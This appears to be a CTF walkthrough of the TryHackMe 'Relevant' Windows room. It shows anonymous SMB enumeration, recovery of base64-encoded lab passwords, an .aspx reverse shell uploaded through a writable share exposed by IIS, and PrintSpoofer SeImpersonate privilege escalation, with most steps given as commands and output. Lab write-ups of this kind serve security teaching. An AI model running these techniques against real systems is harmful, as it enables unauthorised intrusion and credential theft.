 # 50 - Relevant (windows SeImpersonateToken priv esc)

Room Link --> [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.15.188 -p- -T4

PORT      STATE SERVICE            REASON  VERSION
80/tcp    open  http               syn-ack Microsoft HTTPAPI httpd 2.0 
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack Microsoft Windows Server 2008 R2
3389/tcp  open  ssl/ms-wbt-server? syn-ack
49663/tcp open  http               syn-ack Microsoft HTTPAPI httpd 2.0 
49667/tcp open  msrpc              syn-ack Microsoft Windows RPC
49669/tcp open  msrpc              syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: 
```
{% endcode %}

#### SMB enum

```bash
crackmapexec smb 10.10.15.188 -u 'anonymous' -p 'anonymous' --shares
```

<figure><img src=".gitbook/assets/image (368).png" alt=""><figcaption></figcaption></figure>

#### SMBMAP enum

```bash
smbmap -H 10.10.15.188 -u 'anonymous' -p 'anonymous'
```

<figure><img src=".gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure>

We can use crackmapexec to spider through and download everyshare we have read/write access to.

{% code overflow="wrap" lineNumbers="true" %}
```bash
crackmapexec smb 10.10.168.89 -u anonymous -p '' -M spider_plus -o READ_ONLY=true
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now goto `/tmp` dir and view the downloaded flles.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ cd /tmp/cme_spider_plus                                                          
                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus]
└─$ ls -al
total 24
drwxr-xr-x  3 dking dking  4096 Nov  1 06:26 .
drwxrwxrwt 35 root  root  12288 Nov  1 06:26 ..
drwxr-xr-x  3 dking dking  4096 Nov  1 06:26 10.10.168.89
-rw-r--r--  1 dking dking   245 Nov  1 06:26 10.10.168.89.json

┌──(dking㉿dking)-[/tmp/cme_spider_plus]
└─$ cat 10.10.168.89.json         
{
    "nt4wrksv": {
        "passwords.txt": {
            "atime_epoch": "2020-07-25 16:13:05",
            "ctime_epoch": "2020-07-25 16:13:05",
            "mtime_epoch": "2020-07-25 16:35:44",
            "size": "98 Bytes"
        }
    }
}                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus]
└─$ cd 10.10.168.89        
                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus/10.10.168.89]
└─$ ls -al
total 12
drwxr-xr-x 3 dking dking 4096 Nov  1 06:26 .
drwxr-xr-x 3 dking dking 4096 Nov  1 06:26 ..
drwxr-xr-x 2 dking dking 4096 Nov  1 06:26 nt4wrksv
                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus/10.10.168.89]
└─$ ls -al nt4wrksv 
total 12
drwxr-xr-x 2 dking dking 4096 Nov  1 06:26 .
drwxr-xr-x 3 dking dking 4096 Nov  1 06:26 ..
-rw-r--r-- 1 dking dking   98 Nov  1 06:26 passwords.txt

┌──(dking㉿dking)-[/tmp/cme_spider_plus/10.10.168.89/nt4wrksv]
└─$ cat passwords.txt    
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
{% endcode %}

There are some encoded passwords here.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# decoded passwords.
┌──(dking㉿dking)-[~/Downloads]
└─$ echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw==' | base64 -d
Bob - !P@$$W0rD!123                                                                                                                    
┌──(dking㉿dking)-[~/Downloads]
└─$ echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```
{% endcode %}

Since we have access to `IPC$` shar, we could enumerate users anonymously.

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.168.89 | grep SidTypeUser

500: RELEVANT\Administrator (SidTypeUser)
501: RELEVANT\Guest (SidTypeUser)
503: RELEVANT\DefaultAccount (SidTypeUser)
1002: RELEVANT\Bob (SidTypeUser)

# we got Bob. But thats by the way, since we already got his credentials.
```
{% endcode %}

I tried to login using psexec but it did't work.

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/share/doc/python3-impacket/examples/psexec.py 'bill:Juw4nnaM4n420696969!$$$@10.10.168.89'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Web Enumeratioon

Navigating to the http server, `10.10.117.41:49663` -&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# nmap default script scan for port 49663.
49663/tcp open  http    syn-ack Microsoft IIS httpd 10.0
|_http-title: IIS Windows Servert
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
```
{% endcode %}

#### FFUF enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u http://10.10.117.41:49663/FUZZ -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 403,400 -t 500 -ic

# the only dir found was at the latter end
┌──(dking㉿dking)-[~]
└─$ grep nt4wrksv /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -n
220538:nt4wrksv
```
{% endcode %}

### Initial Access

Navigating to the dir: `http://10.10.117.41:49663/nt4wrksv/`- we see its same as the SMB share dir. So `http://10.10.117.41:49663/nt4wrksv/passwords.txt`  -

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Meaning we are accessing the SMB share on the webserver. So we can put a malicious `.asp or .aspx` file to get reverse shell. Setup nc listener and we get a shell by executing the `.aspx` file on the server.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see user.txt flag in Bob dir.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

Since we are service account, we have the `seimpersonate` privs.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I already have a writeup for priv esc using `seimpersonate` [privileges](6-windows-priv-esc.md#15-token-impersonation-printspoofer) .

Upload `printspoofer.exe` into the windows machine.

```bash
.\PrintSpoofer.exe -i -c cmd
```

And we should get `nt/authority system` .

Done!

